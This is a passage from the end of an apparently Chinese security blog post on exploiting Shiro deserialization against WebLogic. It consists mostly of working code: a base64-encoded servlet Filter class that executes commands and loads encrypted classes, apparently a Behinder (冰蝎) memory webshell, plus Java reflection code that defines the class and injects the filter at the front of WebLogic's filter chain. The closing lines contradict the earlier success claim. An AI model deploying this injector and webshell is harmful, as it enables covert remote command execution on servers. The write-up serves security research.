lclRlbXBsYXRlAQAUamF2YXgvc2VydmxldC9GaWx0ZXIBAB5qYXZheC9zZXJ2bGV0L1NlcnZsZXRFeGNlcHRpb24BABhqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2QBABBqYXZhL2xhbmcvU3lzdGVtAQADb3V0AQAVTGphdmEvaW8vUHJpbnRTdHJlYW07AQATamF2YS9pby9QcmludFN0cmVhbQEAB3ByaW50bG4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYBAAxnZXRQYXJhbWV0ZXIBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nOwEAFShMamF2YS9sYW5nL09iamVjdDspWgEAB2lzRW1wdHkBAAMoKVoBAAxqYXZhL2lvL0ZpbGUBAAlzZXBhcmF0b3IBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAoKFtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwEAEWphdmEvbGFuZy9Qcm9jZXNzAQAOZ2V0SW5wdXRTdHJlYW0BABcoKUxqYXZhL2lvL0lucHV0U3RyZWFtOwEAGChMamF2YS9pby9JbnB1dFN0cmVhbTspVgEADHVzZURlbGltaXRlcgEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvdXRpbC9TY2FubmVyOwEABG5leHQBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEACWdldFdyaXRlcgEAFygpTGphdmEvaW8vUHJpbnRXcml0ZXI7AQATamF2YS9pby9QcmludFdyaXRlcgEACWdldEhlYWRlcgEACWdldE1ldGhvZAEACmdldFNlc3Npb24BACIoKUxqYXZheC9zZXJ2bGV0L2h0dHAvSHR0cFNlc3Npb247AQAeamF2YXgvc2VydmxldC9odHRwL0h0dHBTZXNzaW9uAQAMc2V0QXR0cmlidXRlAQAnKExqYXZhL2xhbmcvU3RyaW5nO0xqYXZhL2xhbmcvT2JqZWN0OylWAQATamF2YXgvY3J5cHRvL0NpcGhlcgEAC2dldEluc3RhbmNlAQApKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YXgvY3J5cHRvL0NpcGhlcjsBAAxnZXRBdHRyaWJ1dGUBACYoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvT2JqZWN0OwEABmFwcGVuZAEALShMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9TdHJpbmdCdWlsZGVyOwEALShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmdCdWlsZGVyOwEACHRvU3RyaW5nAQAIZ2V0Qnl0ZXMBAAQoKVtCAQAXKFtCTGphdmEvbGFuZy9TdHJpbmc7KVYBABcoSUxqYXZhL3NlY3VyaXR5L0tleTspVgEACWdldFJlYWRlcgEAGigpTGphdmEvaW8vQnVmZmVyZWRSZWFkZXI7AQAWamF2YS9pby9CdWZmZXJlZFJlYWRlcgEACHJlYWRMaW5lAQAMZGVjb2RlQnVmZmVyAQAWKExqYXZhL2xhbmcvU3RyaW5nOylbQgEAB2RvRmluYWwBAAYoW0IpW0IBABFnZXREZWNsYXJlZE1ldGhvZAEAQChMamF2YS9sYW5nL1N0cmluZztbTGphdmEvbGFuZy9DbGFzczspTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsBABBqYXZhL2xhbmcvVGhyZWFkAQANY3VycmVudFRocmVhZAEAFCgpTGphdmEvbGFuZy9UaHJlYWQ7AQAVZ2V0Q29udGV4dENsYXNzTG9hZGVyAQAZKClMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwEABmludm9rZQEAOShMamF2YS9sYW5nL09iamVjdDtbTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvT2JqZWN0OwEAC25ld0luc3RhbmNlAQAUKClMamF2YS9sYW5nL09iamVjdDsBAA9wcmludFN0YWNrVHJhY2UBABlqYXZheC9zZXJ2bGV0L0ZpbHRlckNoYWluAQBAKExqYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXF1ZXN0O0xqYXZheC9zZXJ2bGV0L1NlcnZsZXRSZXNwb25zZTspVgEACWxvYWRDbGFzcwEAJShMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9DbGFzczsBAAhnZXRDbGFzcwEAEygpTGphdmEvbGFuZy9DbGFzczsBABFqYXZhL2xhbmcvSW50ZWdlcgEABFRZUEUBAA1nZXRTdXBlcmNsYXNzAQANc2V0QWNjZXNzaWJsZQEABChaKVYBAAd2YWx1ZU9mAQAWKEkpTGphdmEvbGFuZy9JbnRlZ2VyOwAhAF0AQgABAF4ABAACAF8AYAAAAAIAYQBiAAAAAgBjAGIAAAACAGQAYgAAAAUAAQBlAGYAAQBnAAAAWQACAAEAAAAbKrcAASoSArUAAyoSBLUABSoSBrUAByq3AAixAAAAAgBoAAAAGgAGAAAAFgAEABEACgASABAAEwAWABcAGgAYAGkAAAAMAAEAAAAbAGoAawAAAAEAbABtAAIAZwAAADUAAAACAAAAAbEAAAACAGgAAAAGAAEAAAAdAGkAAAAWAAIAAAABAGoAawAAAAAAAQBuAG8AAQBwAAAABAABAHEAAQByAHMAAgBnAAAC5AAHAAoAAAGpsgAJEgq2AAsrEgy5AA0CAMYAkSsSDLkADQIAEg62AA+ZAIErKrQAA7kADQIAOgQZBMYAbRkEtgAQmgBlAToFsgAREhK2AA+ZABsGvQATWQMSFFNZBBIVU1kFGQRTOgWnABgGvQATWQMSFlNZBBIXU1kFGQRTOgW7ABhZuAAZGQW2ABq2ABu3ABwSHbYAHrYAHzoGLLkAIAEAGQa2ACGnAQorwAAiKrQABbkAIwIAxgDyK8AAIrkAJAEAEiW2AA+ZANQqtAAHOgQrwAAiuQAmAQASJxkEuQAoAwASKbgAKjoFGQUFuwArWbsALFm3AC0rwAAiuQAmAQASJ7kALgIAtgAvEjC2ADG2ADK2ADMSKbcANLYANRkFuwA2WbcANyu5ADgBALYAObYAOrYAOzoGKrQAPBI9Bb0APlkDEj9TWQQSQFO2AEEBBb0AQlkDGQZTWQS4AEO2AERTtgBFwAA+OgcZB7YARjoIGQcSRwW9AD5ZAxJIU1kEEklTtgBBOgkZCRkIBb0AQlkDK1NZBCxTtgBFV6cAFToEGQS2AEunAAstKyy5AEwDALEAAQCxAZMBlgBKAAMAaAAAAG4AGwAAACEACAAjACMAJQAvACYAPAAnAD8AKABKACkAYgArAHcALQCTAC4AngAwALEAMwDCADQAyAA1ANoANgDhADcBFQA4AS8AOQFhADoBaAA7AX8APAGTAEABlgA+AZgAPwGdAEABoABCAagARABpAAAAjgAOAD8AXwB0AHUABQCTAAsAdgBiAAYALwBvAHcAYgAEAMgAywB4AGIABADhALIAeQB6AAUBLwBkAHsAfAAGAWEAMgB9AGAABwFoACsAfgB/AAgBfwAUAIAAgQAJAZgABQCCAIMABAAAAakAagBrAAAAAAGpAIQAhQABAAABqQCGAIcAAgAAAakAiACJAAMAigAAABkACP0AYgcAiwcAjBT5ACYC+wDxQgcAjQkHAHAAAAAGAAIAWQBxAAEAjgBmAAEAZwAAACsAAAABAAAAAbEAAAACAGgAAAAGAAEAAABJAGkAAAAMAAEAAAABAGoAawAAAAIAjwBmAAEAZwAAAgMABwAHAAAAqbgAQ7YAREwqKxJNtgBOtQA8pwB/TSu2AFBOAToEGQTHADMtEkKlAC0tEj0GvQA+WQMSP1NZBLIAUVNZBbIAUVO2AEE6BKf/2DoFLbYAU06n/84SVDoFuwA2WbcANxkFtgA6OgYZBAS2AFUqGQQrBr0AQlkDGQZTWQQDuABWU1kFGQa+uABWU7YARcAAPrUAPKcAGEwrtgBYpwAQTCu2AFqnAAhMK7YAXLEABQAHABEAFABPACgARQBIAFIAAACQAJMAVwAAAJAAmwBZAAAAkACjAFsAAwBoAAAAagAaAAAATQAHAE8AEQBfABQAUAAVAFEAGgBSAB0AUwAoAFUARQBYAEgAVgBKAFcATwBYAFIAWwBWAFwAZABdAGoAXgCQAGYAkwBgAJQAYQCYAGYAmwBiAJwAYwCgAGYAowBkAKQAZQCoAGcAaQAAAHAACwBKAAUAkACRAAUAGgB2AJIAYAADAB0AcwCTAIEABABWADoAlABiAAUAZAAsAJUAfAAGABUAewCCAJYAAgAHAIkAlwCYAAEAlAAEAIIAmQABAJwABACCAJoAAQCkAAQAggCbAAEAAACpAGoAawAAAIoAAAA6AAn/ABQAAgcAnAcAnQABBwCe/gAIBwCeBwCfBwCgagcAoQn/AD0AAQcAnAAAQgcAokcHAKNHBwCkBAABAKUAAAACAKY=";
                    byte[] bytes = base64Decoder.decodeBuffer(codeClass);

                    Method method = null;
                    Class clz = cl.getClass();
                    while(method == null && clz != Object.class ){
                        try{
                            method = clz.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                        }catch(NoSuchMethodException ex){
                            clz = clz.getSuperclass();
                        }
                    }
                    method.setAccessible(true);
                    clazz = (Class) method.invoke(cl, bytes, 0, bytes.length);
                }

                //将 Filter 注册进 FilterManager
                //参数： String filterName, String filterClassName, String[] urlPatterns, String[] servletNames, Map initParams, String[] dispatchers
                Method registerFilterMethod = filterManager.getClass().getDeclaredMethod("registerFilter", String.class, String.class, String[].class, String[].class, Map.class, String[].class);
                registerFilterMethod.setAccessible(true);
                registerFilterMethod.invoke(filterManager, filterName, "com.feihong.template.DynamicFilterTemplate", new String[]{urlPattern}, null, null, null);


                //将我们添加的 Filter 移动到 FilterChian 的第一位
                Field filterPatternListField = filterManager.getClass().getDeclaredField("filterPatternList");
                filterPatternListField.setAccessible(true);
                ArrayList filterPatternList = (ArrayList)filterPatternListField.get(filterManager);


                //不能用 filterName 来判断，因为在 11g 中此值为空，在 12g 中正常
                for(int i = 0; i < filterPatternList.size(); i++){
                    Object filterPattern = filterPatternList.get(i);
                    Field f = filterPattern.getClass().getDeclaredField("map");
                    f.setAccessible(true);
                    ServletMapping mapping = (ServletMapping) f.get(filterPattern);

                    f = mapping.getClass().getSuperclass().getDeclaredField("matchMap");
                    f.setAccessible(true);
                    MatchMap matchMap = (MatchMap)f.get(mapping);

                    Object result = matchMap.match(urlPattern);
                    if(result != null && result.toString().contains(urlPattern)){
                        Object temp = filterPattern;
                        filterPatternList.set(i, filterPatternList.get(0));
                        filterPatternList.set(0, temp);
                        break;
                    }
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

最终使用此代码生成 `rememberMe cookie` 和 `POST Body`，发送给服务器后，植入冰蝎内存shell，并成功连接。这里注意，冰蝎客户端需要简单改造下，至于如何改造，可以参考 `宽字节安全` 公众号的文章。  
[](https://xzfile.aliyuncs.com/media/upload/picture/20210323160528-882890a6-8bae-1.png)

# 写在最后

为了实现成功的攻击，还是花了不少力气的，然而最后却没有成功，着实让人有些沮丧，不过整个过程还是很有意思的，这也算是一个收获吧
